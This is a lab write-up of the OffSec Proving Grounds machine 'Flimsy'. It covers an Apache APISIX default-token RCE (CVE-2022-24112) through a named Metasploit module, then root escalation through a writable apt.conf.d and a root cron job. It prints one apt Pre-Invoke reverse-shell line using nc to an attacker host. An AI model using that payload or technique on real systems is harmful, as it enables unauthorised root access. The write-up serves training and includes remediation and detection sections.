






# OffSec Proving Grounds - Flimsy

**OS:** Linux

Flimsy runs Apache APISIX, an API gateway with a default token that enables unauthenticated RCE via CVE-2022-24112. The initial shell lands as a low-privilege user. Privilege escalation abuses write access to `/etc/apt/apt.conf.d/` combined with a cron job running `apt-get update` - any file in that directory can tell apt to run arbitrary commands as root.

| Field | Value |
|---|---|
| Platform | OffSec Proving Grounds |
| Target | `<target-ip>` |
| Initial Access | Apache APISIX RCE (CVE-2022-24112) |
| Privilege Escalation | Writable scheduled automation executed as root |
| Final Access | root |

---

## Attack Path

1. Recon identified the exposed services and separated useful attack surface from noise.
2. The first break was Apache APISIX RCE (CVE-2022-24112).
3. Post-exploitation enumeration exposed Writable scheduled automation executed as root.
4. The final privileged context was reached and the required proof was captured.

---

## Recon

### Service Identification

A response header on the service running on port 43500 identified it as Apache APISIX version 2.8. That version is affected by CVE-2022-24112, an authentication bypass via the batch-requests plugin that allows the API default token to be used for arbitrary route creation, leading to RCE.



---

## Initial Access

### Apache APISIX RCE (CVE-2022-24112)

A Python exploit on exploit-db for this CVE did not work against this target. The Metasploit module `multi/http/apache_apisix_api_default_token_rce` did, delivering a shell as `franklin`.




---

## Privilege Escalation

### apt.conf.d Cron Abuse

`linpeas` found that the current user had write access to `/etc/apt/apt.conf.d/`. Running `pspy` confirmed a cron job executing `apt-get update` every few minutes as root.





The `apt.conf.d` directory allows placing configuration snippets that apt reads on every run. The `APT::Update::Pre-Invoke` directive runs arbitrary commands before each update. Writing the following to a new file in that directory and waiting for the cron triggered a root callback:

```
APT::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker-ip> 443 >/tmp/f"};
```





---

## Summary

Flimsy combines an API gateway default-token RCE with a package manager cron abuse. The apt privilege escalation is a nice technique to have in the toolkit - write access to `apt.conf.d` is not immediately obvious as a privesc path, and `pspy` is what surfaces the cron.

**Key takeaway:** Any cron running a package manager as root combined with writable package manager configuration directories is a clean privilege escalation - the package manager will run whatever its config tells it to.

---

## Root Cause

The demonstrated path worked because unpatched vulnerable software, local privilege boundary misconfiguration gave the attacker a bridge from reconnaissance to execution. The important pattern is the chain: Apache APISIX RCE (CVE-2022-24112) created a foothold, and Writable scheduled automation executed as root converted that foothold into root.

## Impact

Successful exploitation reached root. That level of access allows command execution, proof or sensitive-file access, credential collection, and a realistic path to additional systems if the same credentials, services, or trust relationships exist elsewhere.

## Remediation

- Remove or harden the specific exposure used for initial access: Apache APISIX RCE (CVE-2022-24112).
- Fix the privilege boundary that enabled escalation: Writable scheduled automation executed as root.
- Rotate credentials observed or replayed during the chain and search for reuse on adjacent systems.
- Validate the fix by safely replaying the enumeration steps that originally exposed the weakness.

## Detection Opportunities

- Alert on exploit attempts or suspicious access patterns against the service that enabled initial access.
- Correlate successful authentication, new process creation, and privilege-boundary events after enumeration activity.
- Monitor for the specific escalation signal: Writable scheduled automation executed as root.

## Lessons Learned

- The winning path was not just a vulnerable service; it was the connection between Apache APISIX RCE (CVE-2022-24112) and Writable scheduled automation executed as root.
- Preserve the observations that explain why each pivot made sense, not only the commands that worked.
- Write remediation from the root cause of each step so the report reads like an operator narrative and a defender action plan.
